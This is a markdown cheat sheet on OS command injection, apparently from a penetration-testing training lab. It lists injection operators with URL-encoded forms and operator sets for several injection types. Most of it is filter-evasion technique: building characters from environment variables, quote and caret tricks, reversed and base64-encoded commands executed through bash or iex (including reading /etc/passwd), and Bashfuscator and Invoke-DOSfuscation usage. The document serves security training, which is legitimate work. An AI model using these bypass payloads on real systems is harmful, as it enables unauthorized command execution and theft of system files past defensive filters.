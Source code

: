 | Injection Operator | Injection Character | URL-Encoded Character | Executed Command                              |
|--------------------|---------------------|-----------------------|-----------------------------------------------|
| Semicolon          | `;`                 | `%3b`                 | Both                                          |
| New Line           | `\n`                | `%0a`                 | Both                                          |
| Background         | `&`                 | `%26`                 | Both (second output generally shown first)   |
| Pipe               | `|`                 | `%7c`                 | Both (only second output is shown)            |
| AND                | `&&`                | `%26%26`              | Both (only if first succeeds)                 |
| OR                 | `\|\|`              | `%7c%7c`              | Second (only if first fails)                  |
| Sub-Shell          | ``````              | `%60%60`              | Both (Linux-only)                             |
| Sub-Shell          | `$()`               | `%24%28%29`           | Both (Linux-only)                             |
| Tab                |                     | `%09`                 |                                               |
| {IFS}              |                     |                       |                                               |
| Brace e.g. `{ls,-la}` |                 |                       |                                               |


# Injection types
|Injection Type|	Operators|
|-|-|
|SQL Injection|	' , ; -- /* */|
|Command Injection|	; &&
|LDAP Injection|	* ( ) & |
|XPath Injection|	' or and not substring concat count
|OS Command Injection|	; & |
|Code Injection|	' ; -- /* */ $() ${} #{} %{} ^
|Directory Traversal/File Path Traversal|	../ ..\\ %00
|Object Injection|	; & |
|XQuery Injection|	' ; -- /* */
|Shellcode Injection|	\x \u %u %n
|Header Injection|	\n \r\n \t %0d %0a %09


# Bypass blacklisted chars

Linux
```
printenv
$ echo ${PATH}
/usr/local/bin:/usr/bin:/bin:/usr/games

$ echo ${PATH:0:1}
/

$ echo ${LS_COLORS:10:1}

;
```

Windows
```
Get-ChildItem Env
echo %HOMEPATH:~6,-11%

$env:HOMEPATH[0]

$env:PROGRAMFILES[10]
```

## Bypassing Blacklisted commands
```
Linux
$ w'h'o'am'i
21y4d

$ w"h"o"am"i
21y4d

who$@ami
w\ho\am\i


Windows
C:\>who^ami


## Reverse
$ (tr "[A-Z]" "[a-z]"<<<"WhOaMi")
21y4d
$(a="WhOaMi";printf %s "${a,,}")


$ echo 'whoami' | rev
imaohw
$ $(rev<<<'imaohw')
21y4d


Windows
> "whoami"[-1..-20] -join ''
imaohw
> iex "$('imaohw'[-1..-20] -join '')"
21y4d


## Encoding
LINUX
$ echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin


WINDOWS
>  [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA

$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
dwBoAG8AYQBtAGkA

> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
21y4d
```

# Evasion Tools
Linux
https://github.com/Bashfuscator/Bashfuscator
```
$ git clone https://github.com/Bashfuscator/Bashfuscator
$ cd Bashfuscator
$ python3 setup.py install --user
$ cd ./bashfuscator/bin/
$ ./bashfuscator -h
$ ./bashfuscator -c 'cat /etc/passwd'
$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

```

Windows
https://github.com/danielbohannon/Invoke-DOSfuscation
```
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1



```